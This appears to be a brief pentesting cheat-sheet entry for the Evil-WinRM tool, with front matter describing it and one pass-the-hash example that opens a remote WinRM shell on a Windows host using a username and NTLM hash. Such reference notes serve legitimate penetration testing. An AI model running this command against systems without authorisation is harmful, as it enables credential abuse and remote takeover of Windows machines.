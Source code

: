 ```yaml
---
title: Evil-WinRM
desc: Windows Remote Management shell for pentesting. It's also used for Pass The Hash.
tags: [ActiveDirectory, Linux, PassTheHash, Windows]
alts: []
website: https://github.com/Hackplayers/evil-winrm
---
```


## Pass The Hash

```sh
# Specify hash instead of password
evil-winrm -i 10.0.0.1 -u admin -H 0e0363213e37b94221497260b0bcb4fc
```